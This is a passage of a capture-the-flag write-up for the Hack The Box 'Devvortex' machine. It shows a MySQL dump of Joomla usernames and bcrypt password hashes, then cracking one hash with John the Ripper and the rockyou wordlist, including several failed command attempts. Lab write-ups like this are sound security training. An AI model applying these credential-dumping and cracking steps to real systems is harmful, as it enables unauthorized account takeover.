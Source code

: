 ```bash
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

The hash we got for Logan is using the Bcrypt algorithm. We can use John to crack this hash.

```bash
h0ax@h0ax-vm:~/HTB/boxes/easy/devvortex$ /usr/sbin/john --wordlist ~/security-tools/wordlists/rockyou.txt --format bcrypt hash
Option requires a parameter: "--wordlist"
h0ax@h0ax-vm:~/HTB/boxes/easy/devvortex$ /usr/sbin/john --wordlist=~/security-tools/wordlists/rockyou.txt --format=bcrypt hash
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 0% 0g/s 87.30p/s 87.30c/s 87.30C/s trinity..cheche
0g 0:00:00:09 0% 0g/s 86.92p/s 86.92c/s 86.92C/s chichi..melvin
tequier******    (?)
1g 0:00:00:16 100% 0.06180g/s 86.77p/s 86.77c/s 86.77C/s moises..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed
h0ax@h0ax-vm:~/HTB/boxes/easy/devvortex$ /usr/sbin/john --show
Password files required, but none specified
h0ax@h0ax-vm:~/HTB/boxes/easy/devvortex$ /usr/sbin/john --wordlist ~/security-tools/wordlists/rockyou.txt --format bcrypt hash --show
Option requires a parameter: "--wordlist"
h0ax@h0ax-vm:~/HTB/boxes/easy/devvortex$ /usr/sbin/john --wordlist=~/security-tools/wordlists/rockyou.txt --format=bcrypt hash --show
Invalid options combination or duplicate option: "--show"
h0ax@h0ax-vm:~/HTB/boxes/easy/devvortex$ --show
--show: command not found
h0ax@h0ax-vm:~/HTB/boxes/easy/devvortex$ john hash --show
?:tequier*****

1 password hash cracked, 0 left
```
